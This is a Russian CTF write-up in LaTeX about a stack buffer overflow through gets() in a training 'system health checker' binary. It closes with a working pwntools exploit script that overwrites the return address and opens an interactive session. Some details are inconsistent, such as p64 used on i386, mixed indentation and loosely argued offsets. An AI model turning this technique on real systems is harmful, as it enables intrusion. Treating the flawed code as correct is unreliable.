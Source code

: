 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
\begin{tcolorbox}
Я написал программу, чтобы отслеживать состояние своего сервера. Но не уверен, что она так уж безопасна. Поможете проверить?

nc ctf-edu-t.orb.ru 31488
\end{tcolorbox}

Нам дается простенький бинарь, спрашивающий пароль. При декомпиляции первое, на что падает взгляд - использование функции \verb|gets()|. От этого буквально несет переполнением буфера. Остается понять, насколько его переполнять. Если взглянуть на пролог функции \verb|remote_system_health_check()|, то становится понятно, что содержимое стека в данном случае выглядит как \verb|ebp + buffer|. Размер буфера тоже виден ниже и равен $0x108$, что в более привычной для нас десятичной системе счисления равняется $264$. Таким образом, пайлоад будет выглядеть как: \verb|password + \x00 + padding + RA|. То есть требуемый пароль, нулевой байт для того, чтобы функция \verb|strcmp()| "правильно" сравнила строки, после чего забивание буфера и \verb|ebp| и перезапись адреса возврата. Остается понять, сколько же нужно забивать. Так как наш пароль выглядит как \verb|sUp3r_S3cr3T_P4s5w0rD| и его длина равна $21$, то из $264$ байт у нас остается $242$ (не забываем про нулевой байт в конце строки). Отлично, буфер забит. Нужно добавить еще $4$ байта для того, чтобы дойти до адреса возврата сквозь \verb|ebp|. И не стоит забывать, что функция \verb|gets()| автоматически добавляет в конец нулевой байт - то есть из получившихся $246$ нужно вычесть $1$ и получить $245$ - длину нашего смещения. Ну и еще стоит вспомнить, что адреса хранятся в little-endian. Таким образом, сплойт будет выглядеть следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='i386')

BINARY = './system_health_checker'
REMOTE = True


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

	r.recvline()

    padding = "A" * 245
    RA = p64(0x0804928c)

    r.sendline("sUp3r_S3cr3T_P4s5w0rD\x00" + padding + RA)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}
\end{document}

